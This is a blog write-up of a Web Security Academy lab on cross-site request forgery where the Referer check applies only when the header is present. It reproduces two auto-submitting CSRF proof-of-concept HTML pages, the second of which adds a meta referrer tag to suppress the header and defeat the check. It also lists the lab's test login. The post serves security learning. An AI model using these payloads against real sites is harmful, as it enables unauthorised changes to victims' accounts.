 ```yaml
---
layout: post
title:  "CSRF where Referer validation depends on header being present"
date:   2024-10-03 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution 

Exactly like the rest other labs, we have to update the email, Intercept the request and Generate the POC using engagement tools.. here is how the POC looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Then Copied the payload into Exploit server, `Stored -> View Exploit` that resulted in a referrer header error 

![]({{ site.baseurl }}/assets/images/csrf-24.png)

In order to bypass the check we can add the following the piece of code which will suppress the `Referrer` <meta name="referrer" content="never">` into our POC 

```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Redo the method again in terms of exploit server after adding this code like `Store -> Deliver the exploit to Victim` and then lab will be solved 

![]({{ site.baseurl }}/assets/images/csrf-25.png)